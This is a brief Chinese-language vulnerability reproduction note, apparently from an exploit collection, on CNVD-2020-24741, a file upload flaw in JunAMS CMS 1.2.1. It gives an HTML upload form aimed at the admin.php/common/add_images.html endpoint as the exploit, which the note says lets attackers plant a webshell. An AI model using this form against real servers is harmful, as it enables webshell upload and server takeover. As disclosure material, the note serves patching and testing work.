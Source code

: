 # JunAms内容管理系统文件上传漏洞 CNVD-2020-24741

## 漏洞描述

JunAMS是一款以ThinkPHP为框架的开源内容管理系统。

JunAMS内容管理系统存在文件上传漏洞，攻击者可利用该漏洞上传webshell，获取服务器权限。

参考链接：

- https://www.cnvd.org.cn/flaw/show/CNVD-2020-24741

## 漏洞影响

```
JunAMS junAMS 1.2.1.20190403
```

## 漏洞复现

exp：

```
<form enctype="multipart/form-data" action="http://localhost//admin.php/common/add_images.html" method="post">  
<input type="file" name="file" size="50"><br>  
<input type="submit" value="Upload">  
</form>
```

